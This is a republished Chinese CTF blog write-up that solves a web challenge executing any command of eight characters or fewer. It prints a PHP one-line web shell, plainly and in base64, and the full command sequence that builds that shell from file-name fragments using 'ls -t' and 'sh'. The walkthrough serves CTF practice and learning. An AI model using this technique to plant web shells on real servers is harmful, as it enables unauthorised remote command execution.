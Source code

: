 <!--yml
category: 未分类
date: 2022-04-26 14:42:58
-->

# CTF_Web：8位以内可控字符getshell_星辰照耀你我的博客-CSDN博客_ctf getshell

> 来源：[https://blog.csdn.net/qq_35493457/article/details/119385240](https://blog.csdn.net/qq_35493457/article/details/119385240)

### 题目来源

近期在练习CTF中的web题目时遇到一个8位字符以内可以随意执行命令，最终需要getshell 的题目，发现很多前辈都写了这类型的题解，但也需要自己实践一下，题目源码访问后如图：
![题目展示的源码](img/35dabc349b4f74ea79814dc2c37fab5e.png)
**思路**：可以看出当提交的参数1包含的值少于8位时，都会当作命令执行，首先`?1=ls`发现所有文件名都超过了8位，显然单靠这8位执行命令是不足以cat某个文件，于是需要利用拼接文件名执行代码getshell。
![ls查看目录文件](img/0dfbe269012efdf11e48e1e72717d1fa.png)

### 解题利用知识点

```
>a "在linux中会直接创建这个文件，但没有内容"
ls -t "将目录中的文件以时间顺序排列，最后创建的排在第一位"
sh a "将文件a中的所有内容以命令执行"
who/
am/
i "Linux中的命令拼接符/会将命令按照whoami执行" 
```

例如
![whoami命令拼接](img/88864b176e78f3268f7c04f6b6a139e0.png)

在这个题目中就是要将一个一句话木马写入文件，然后访问这个一句话从而getshell，这里使用创建一句话的命令为：

```
echo <?php echo shell_exec($_GET[1]); >1.php "便于查看回显"
echo PD9waHAgZWNobyBzaGVsbF9leGVjKCRfR0VUWzFdKTs=|base64 -d>1.php "使用base64的方式避免$等特殊字符输入失败" 
```

将这段话倒序输入后再利用`ls -t>0`正序输入文本中执行，就可以生成一个一句话木马，注意所有字符都需`\`转义。

```
>hp
>1.p\\
>d\>\\
>\ -\\
>64\ \\
>base\\
>\=\|\\
>dKTs\\
>UWzF\\
>fR0V\\
>jKCR\\
>leGV\\
>sbF9\\
>zaGV\\
>obyB\\
>gZWN\\
>waHA\\
>PD9\\
>o\ \\
>ech\\
ls -t>0
sh 0 
```

使用`cat a`查看`ls -t`写入的内容
![image.png](img/d1906730a340293268c6ccbdc1807925.png)
使用`ls`查看`sh a`是否成功执行生成了`1.php`
![image.png](img/5f5dc64863a74b1be33e7868e0fb1fbe.png)
并连接使用`mv flag.php flag.txt`将`flag`修改为`txt`格式。
![image.png](img/eb6451efda78701c2f893baf6988367f.png)
最终访问flag.txt得到flag